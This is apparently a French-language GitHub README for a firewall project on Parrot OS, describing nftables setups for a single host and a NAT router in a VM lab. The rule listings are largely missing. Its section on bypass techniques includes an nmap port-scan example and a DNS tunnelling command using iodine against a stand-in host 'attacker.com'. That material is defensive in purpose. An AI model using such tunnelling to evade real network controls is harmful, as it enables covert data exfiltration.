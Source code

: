 ## Projet Firewall — Parrot OS

Ce projet présente la configuration de pare-feux avancés sous **Parrot Security OS**, une distribution orientée **pentest** et **protection de la vie privée/anonymat**.

Les démonstrations portent sur les niveaux suivants :

- **Niveau 6 — nftables (avancé, machine seule)**
- **Niveau 7 — nftables (NAT/Lab, routeur pour un lab de VM)**

## Pourquoi Parrot OS ?

- Distribution orientée **pentest** et **vie privée/anonymat**.
- Le pare-feu **UFW** est installé par défaut mais désactivé → à activer/configurer par l’utilisateur.
- Intègre des outils de confidentialité (Tor, Anonsurf, OnionShare).
- Plus légère que Kali, adaptée aux **machines modestes** et virtualisation (VirtualBox, VMware).

---

## Niveau 6 (standalone, machine personnelle protégée)
# Mon projet

Voici une capture d’écran :

![Capture écran]https://private-user-images.githubusercontent.com/212772486/480572376-83cf4167-38cb-48c6-b4f3-608e79c749f1.PNG?jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3NTU3OTAzMTUsIm5iZiI6MTc1NTc5MDAxNSwicGF0aCI6Ii8yMTI3NzI0ODYvNDgwNTcyMzc2LTgzY2Y0MTY3LTM4Y2ItNDhjNi1iNGYzLTYwOGU3OWM3NDlmMS5QTkc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjUwODIxJTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI1MDgyMVQxNTI2NTVaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT01NGE2Yzg3MjRjYTgwNDBmMGRlZjkxMGIxM2U2MjAzOTUyZTc3ZGJhYmNlYTdiMWYwY2MwZGY4ODFhYzZmNTU0JlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCJ9.ctm6Id916CaWY6KCf1d-3-XnVy_Lt8VsCHLjbep29D0

## Niveau 7 (NAT / Lab, machine routeur en VM)

---

# 📌 Explications

- **Niveau 6** → protège spécifiquement ta machine personnelle.
- **Niveau 7** → transforme ta machine en pare-feu et routeur pour un réseau virtuel.

 Exemple de capture d’écran (nftables actif en niveau 6) :
![Capture d’écran Niveau 6](images/niveau6.png)

 Exemple de capture d’écran (nftables NAT/routeur niveau 7) :
![Capture d’écran Niveau 7](images/niveau7.png)

---

#  Démonstrations

➡️ **Application des règles** :

---
# ⚠️ Limites et bonnes pratiques

Un pare-feu réduit la surface d’attaque, mais **il ne protège pas de tout**.
Un attaquant expérimenté peut toujours tenter de :

- Passer par un service autorisé (ex : **SSH, HTTPS**).
- Exploiter une **faille applicative**.
- Utiliser du **tunneling** (DNS, HTTPS).
- Contourner via **IPv6** si mal configuré.

👉 **Conclusion :**
Un firewall seul n’est pas suffisant.
Il doit être combiné avec :
- un **IDS/IPS** (Snort, Suricata),
- du **monitoring** (logs, SIEM),
- et des **bonnes pratiques** : MFA, mises à jour régulières, segmentation réseau, durcissement système.

---

# ⚠️ Comment un hacker pourrait contourner

Même avec un firewall avancé (niveaux 6 et 7), il existe des **techniques de contournement** :

- 🔓 **Exploiter les ports ouverts**
(ex : `nmap -p 443 <cible>` ➝ scanner en HTTPS).

-  **Tunneling DNS**
(ex : `iodine` ➝ transformer DNS en canal de communication).

-  **Exploiter des failles applicatives** derrière un port autorisé.

---

👉 **C’est pourquoi un firewall seul ne suffit pas** :
il faut le **combiner avec IDS/IPS + monitoring**.

---

### 📌 Exemple : Tunnel DNS (contournement)

Comme le port **53 (DNS)** est ouvert, un attaquant peut établir un tunnel DNS :

iodine -f -r attacker.com

---

#  Différence entre Niveau 6 et Niveau 7

### 🔹 Niveau 6 : Pare-feu personnel
- Protège uniquement **ta machine locale**.
- Applique une politique stricte : **tout est bloqué sauf quelques services essentiels**.
- Idéal pour un **poste de travail** ou un **serveur isolé**.

👉 **Exemple :** ton PC sous Parrot OS n’accepte que le trafic **web** et **SSH**.

---

### 🔹 Niveau 7 : Pare-feu réseau
- Ta machine devient un **routeur + firewall**.
- Protèger **un réseau interne entier**.
- Ajouter le **forwarding et NAT**.

# ✅ Conclusion

Parrot OS est une alternative solide à Kali Linux : plus légère, orientée vie privée et adaptée aux environnements pentest.

Les niveaux 6 et 7 démontrent deux cas concrets :

**Protection avancée d’une machine individuelle** (standalone) 
**Mise en place d’un routeur/firewall complet** pour un lab réseau.

👉 Ce projet illustre comment un firewall peut évoluer :
d’une **simple protection locale** ➝ vers un **composant réseau avancé**.

---

#  Technologies utilisées

- Parrot OS
- nftables
- VirtualBox

---

✍️ Auteur : *Virginie Lechene*








